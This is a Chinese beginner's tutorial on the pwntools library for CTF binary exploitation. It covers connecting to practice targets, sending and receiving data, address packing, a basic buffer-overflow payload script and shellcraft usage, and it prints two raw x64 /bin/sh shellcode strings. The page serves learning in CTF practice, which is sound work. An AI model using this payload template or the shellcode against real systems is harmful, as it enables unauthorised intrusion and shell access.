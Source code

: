 # pwntools入门

参考链接：

[【二进制安全】PWN基础入门大全（非常详细）零基础入门到精通，收藏这一篇就够了-CSDN博客](https://blog.csdn.net/leah126/article/details/140679045)

[Pwn | 快速入门 - NewStar CTF](https://ns.openctf.net/learn/pwn.html)

[超全PWN入门笔记，从栈到堆一步到位 - X0H3M1 - 博客园](https://www.cnblogs.com/X0H3M1/articles/16669128.html)

[你想有多PWN(不再更新)_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1mr4y1Y7fW/?spm_id_from=333.337.search-card.all.click&vd_source=f264368eefdba6c9e52d63931d176453)

[[Pwn之路\] 欢迎来到堆攻击的世界——简单堆溢出原理和例题 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/endpoint/371095.html)

[第二章_第13节_ret2syscall_x1.5_整合_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1mr4y1Y7fW?spm_id_from=333.788.videopod.episodes&vd_source=f264368eefdba6c9e52d63931d176453&p=23)

[PWN 64位程序寄存器的使用-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2277507)





## pwntools的使用

**Pwntools** 是一个用于漏洞利用和二进制分析的 `Python 库`

`pwntools`可以说是pwn手必备的工具，它帮助pwn手`连接远程服务器`，`发送信息`，`接收信息`，以及提供了很多工具来帮助pwn手快速攻克题目



安装：

```
>>> apt-get update
>>> apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
>>> python3 -m pip install --upgrade pip
>>> python3 -m pip install --upgrade pwntools
```



直接cmd里面执行

```
pip install pwntools
```





### 导入pwntools

```py
from pwn import *
```



### 需要分清楚靶机的具体信息，不然无法连接

比如：

```python
context(os='linux', arch='AMD64', log_level='debug')
```



### 连接靶机具体ip和端口号：   nc连接

```python
用于连接远程服务器，并把连接到的进程命名为p，后续的函数都围绕这个p进程展开
p = remote("ip",port) 
比如:p = remote("node5.buuoj.cn",5555)
```



如果用ssh连接，则：

```python
通过使用ssh来连接靶机
p = ssh(host='192.168.xx.xxx', user='xidp', port=6666, password='88888888')
```



### 发送信息：

```python
**************************************************
p.send(payload) # 直接发送payload
**************************************************
p.sendline(payload) # 发送payload，但是结尾会有一个\n
**************************************************
p.sendafter("string", payload) # 接收到 string (这里说的string可以替换成任何信息) 之后会发送payload，但是如果没有接收到string，那么就会导致脚本一直卡在这里不动
**************************************************
p.sendlineafer("string", payload) # 接收到 string 之后会发送payload 并且在payload最后添加\n
```

tips:

如果函数是`gets()`和`scanf()`这类函数它们会以`\n`作为结束符号，这时候就需要我们手动发送`\n` 不然函数无法结束，这时候就需要使用`p.sendline(payload) ` 



如果函数是`read()` 这类的函数，使用`p.sendline`和`p.send`都可以,但是需要区分不同情况





### 接受信息：

```python
p.recv(int) 利用recv来接收返回的数据，并且可以控制接受到的字节数
比如:p.recv(7) => 系统输出'hello world' => 我们会接受到'hello w' 

p.recvline('string') 设置一个标识符，接收标识符所在的那一行
比如:p.recvline('O.o')
#系统输出:
Hello World 
This is a test. 
O.o This is the target line. 
Goodbye.
#我们接收:
O.o This is the target line. 
**************************************************
p.recvlines(N) 接收 N 行输出
**************************************************
p.recvuntil('string') 可以指定接收到某一字符串的时候停止 ,还有第二个参数 drop，drop=True(默认为false) 表示丢弃设定的停止符号
比如:p.recvuntil('or') 
#系统输出:
hello world 
#我们接收:
hello wor  
比如:a = io.recvuntil(']', drop=True)
就是一直获取到`]`符号出现就停止，并且不接收`]`符号
**************************************************
```



只有信息多才需要使用这个



### 构造发送地址类型

#### `p64/p32/u64/u32`这类函数的作用:

```python
**************************************************
p64(int) 
p64(0xfaceb00c) => '\x0c\xb0\xce\xfa\x00\x00\x00\x00\x00'
**************************************************
u64(str) 
u64('\x0c\xb0\xce\xfa\x00\x00\x00\x00') =>0xfaceb00c
**************************************************
p32(int)  
p32(0xfaceb00c) => '\x0c\xb0\xce\xfa'
**************************************************
u32(str) 
u32('\x0c\xb0\xce\xfa') => 0xfaceb00c
**************************************************

```





### 本地调试

```
io=process("./pwn")

```



### 传递到终端

```python
p.interactive()
接受信息并且在终端操作，程序拿到shell
```





### 一个最基本的payload如下：

```python
from pwn  import *
import pwnlib
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')

if __name__ == '__main__':
	
	HOST = 'node4.buuoj.cn'
	PORT = 29105
	conn = remote(HOST ,PORT)
	payload = "A"*0x17 + p64(0x40118A)
	conn.sendline(payload)
	conn.interactive()
```



### 汇编与反汇编



```python
>>> asm('mov eax, 0')   #汇编
'\xb8\x00\x00\x00\x00'

>>> disasm('\xb8\x0b\x00\x00\x00')  #反汇编
'mov    eax,0xb'
```



### shellcode

```python
context(os='linux', arch='i386')
# 表示将当前执行上下文的体系结构设置为i386(这里的i386可以通过checksec来查看文件是什么架构的  
shellcode = asm(shellcraft.sh())
# asm()是把括号内的内容编译成机器码(只有机器码才可以执行)，一般用来打入后门。pwntools自带的后门函数，可以生成类似system('/bin/sh/')这样功能的汇编代码 
# 通常可以配合  .ljust() 来使用  
shellcode.ljust(112, b'A')  
# 这里的 .ljust() 是 Python 中字符串对象的方法，用于在字符串的右侧填充指定的字符，使字符串达到指定的长度。

```



```python
from pwn import *
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
shellcode.ljust(112, b'A')  
```



如果不用库自带的shellcode，可以有一些编译好的shellcode



64位Linux的24Byte的ShellCode：

```
shellcode_x64 ="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
```



64位Linux的23Byte的shellcode：

```
shellcode_x64 ="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```







### 报错问题：

#### 1.使用p64()时报错：TypeError: can only concatenate str (not “bytes“) to str

```python
p64(0x00400596).decode('unicode_escape')
```







# 重点基础知识

1. 













